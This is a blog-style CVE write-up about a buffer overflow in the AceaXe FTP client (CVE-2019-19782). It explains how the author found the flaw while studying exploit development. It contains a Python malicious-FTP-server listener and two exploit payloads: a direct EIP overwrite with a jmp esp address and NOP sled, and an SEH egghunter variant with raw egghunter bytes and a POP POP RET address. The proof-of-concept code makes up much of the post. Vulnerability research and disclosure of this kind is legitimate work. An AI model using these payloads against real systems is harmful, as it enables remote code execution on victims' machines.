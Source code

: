 ```yaml
---
layout: post
title: "RCE via Buffer Overflow - AceaXeFTP"
categories: CVE_Research
---
```


**RCE via Buffer Overflow - AceaXeFTP**{: style="color: greenyellow"}

# Summary:
It's Possible to trigger a buffer overflow, in AceaXeFTP client, by hosting a malicious ftp server and sending malicious responses to the client.

# Bin info:
Name: AceaXe +
Homepage: http://www.labf.com/aceaxeplus/index.html

# Proof of Concept (PoC):

Studying to take the OSCE exam, i was simply fascinated by the Exploit dev topic, ASLR Bypass and SEH based exploits, was something that i needed to see in the internet jungle.
&nbsp;

Doing the exercises, i was able to successfuly exploit one of the examples. So, i thought "Yeah, it's time to find a really old software that i could run in a windows vista and try to find some AAAA shenanigans", and that's what i did, got first a windows xp and windows vista vm running and the AceaXe software bundle installed.
&nbsp;

At first, as i was really confortable with the basics of exploit dev, because of the OSCP background, i tried finding something in the windows xp, as it would not have ASLR nor DEP, so it would be easy to exploit. 
&nbsp;

As i was researching i found a lot of PoCs of ftp clients that got exploited by sending the response of the ftp commands with the exploit code. so, after some hours of trying a lot of gui overflows and file sizes oveflows, I finnally tried creating my own fake FTP server in python and sending the famous EHLO response with a giant string &afterwords, and it worked, EIP was finnaly overwritten by the AAAAs ! 
&nbsp;

# Finnally ! Time to exploit (winXP version):

The concept was easy. Create a simple socket listening to port 21, that sends the string after the client connects to it.

&nbsp;
{% highlight python %}


port = 21                   
s = socket.socket()
host = '0.0.0.0'              
try:
	s.bind((host, port))            
	s.listen(5)                     
	print ('[+] Ouvindo na porta 21.')
except:
	print ('[-] Problemas no socket, veja se a porta 21 ja esta sendo utilizada')
while True:
 	try:
	    conn, addr = s.accept()
	    print ('[+] Envindo o payload')     
	    conn.send(dadosenviados)
	    conn.close()
	    print ('[+] Payload enviado com sucesso')
	except:
		print ('[-] Tivemos um prolema, veja se tudo foi settado corretamente')
		
{% endhighlight %}
&nbsp;

So, after Creating a FTP server I was able to send the malicious Buffer, to exploit this vulnerability. and after doing all the steps needed to create the simple buffer overflow i was able to retrieve a Command shell on the machine
&nbsp;
By sending the following payload, i was able to take control of the EIP 

&nbsp;
{% highlight python %}

jmpesp = "\x96\x72\x01\x68"
lixo = "\x41"*2061
nopsled = "\x90"*20
eip = '\x6F\x4A\x08\x68'

payload = lixo+eip+jmpesp+nopsled+shellcode+nopsled     

dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;

So, nothing new there, just a classic default buffer overflow, but i was so happy that i have found it haha. It was time to exploit it in windows vista, to smack some windows ASLRs. 

I exploited it using a SEH based Buffer overflow, and by using the egghunter technique.


&nbsp;
{% highlight python %}


lixo1 = "\x41"*100
lixo2 = "D" * (9266-len(shellcode))
lixo3 = "C" * 576
nopsled = "\x90"*20


egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

egg = "w00tw00t"

nseh = "\x90\x90\xEB\x05" 
seh = "\xF8\x54\x01\x68" #POP POP RET 680154F8 in WCMDPA10.DLL

payload = lixo1 + egg + nopsled + shellcode + lixo2 + nseh + seh + egghunter + lixo3


dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;

#CVE

CVE-2019-19782

